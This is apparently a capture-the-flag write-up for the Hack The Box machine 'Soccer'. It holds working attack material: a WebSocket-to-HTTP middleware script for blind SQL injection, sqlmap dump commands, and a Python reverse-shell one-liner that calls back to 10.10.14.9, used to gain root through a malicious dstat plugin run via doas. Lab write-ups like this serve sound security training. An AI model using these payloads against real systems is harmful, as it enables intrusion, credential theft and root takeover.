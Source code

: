 ### Enumeration

By nmap port scan we have some open tcp and udp ports
```shell
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http         nginx 1.18.0 (Ubuntu)
1026/tcp filtered LSA-or-nterm
9091/tcp open  xmltec-xmlmail
19/udp    closed chargen
1214/udp  closed fasttrack
19374/udp closed unknown
20380/udp closed unknown
32385/udp closed unknown
57843/udp closed unknown
```

![](/Hack-The-Box/soccer/img/1.png)

During directory scanning we found some endpoints where one is a login page to `tiny file mnager` and the second one is a upload page which is forbidden
```shell
200      GET      147l      526w     6917c http://soccer.htb/
301      GET        7l       12w      178c http://soccer.htb/tiny => http://soccer.htb/tiny/
301      GET        7l       12w      178c http://soccer.htb/tiny/uploads => http://soccer.htb/tiny/uploads/
```
![](/Hack-The-Box/soccer/img/2.png)

So by using the defaults credentials from github page; we successfully login and found a upload function. so navigating to `/tiny/uploads` and uploaded our revshell payload and recived a shell as `www-data`

SInce the site is running on `nginx` we just navigate to `/etc/nginx/site-availabes` and found a subdomain running on the server
![](/Hack-The-Box/Mentor/img/3.png)

![](/Hack-The-Box/Mentor/img/4.png)

we signin  and login to the account a found a page to check our tickets. 
![](/Hack-The-Box/Mentor/img/5.png)

while checking the html source page we found a websocket connection running on the subdomain
```html
 <script>
        var ws = new WebSocket("ws://soc-player.soccer.htb:9091");
        window.onload = function () {
        
        var btn = document.getElementById('btn');
        var input = document.getElementById('id');
```

Since there is nothing else that caught my eye I digged around and found out that we probably could try to find a blind sql injection like described on
```url
https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html
```

so crafing the script 
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
Now using sqlmap we have got password for user palyer
```c
sqlmap -u "http://localhost:8081/?id=96680*" --batch --dbs 
sqlmap -u "http://localhost:8081/?id=96680*" --batch -D soccer_db --tables --dbs
sqlmap -u "http://localhost:8081/?id=96680*" --batch -D soccer_db -T accounts  --dump
```

### PRIVILLAGE ESCLATION

when executing 
`find / -type d -writable 2>/dev/null | grep -v -e '^/proc' -e '/run'`
we found a file named dstat in `/usr/local/share`

and while running 
`find / -user root -perm -4000`
we found `/usr/local/bin/doas`
```c#
doas is a command on OpenBSD systems that allows users to execute commands as other users, similar to the sudo command on other Unix-like operating systems. It stands for "do as", as in "perform the following command as the specified user". doas is configured through the /etc/doas.conf file, which specifies which users are allowed to use doas and which commands they are allowed to execute.
```
```python
player@soccer:/usr/local/etc$ cat doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

Now we are abuding  dstat pligins in order to become root user
 create a file named `dstat_bq.py` with our rev_shell payload
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",3636));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")

```
upload the file to our target machine using `wget`
copy the file into `/usr/local/share/dstat` and change the permission of the file
check whether our malcious plugin have been loaded
` doas /usr/bin/dstat --list`
![](/Hack-The-Box/Mentor/img/6.png)

Open a netcat lisner and execute the following command
`doas -u root /usr/bin/dstat --bq`
![](/Hack-The-Box/Mentor/img/7.png)
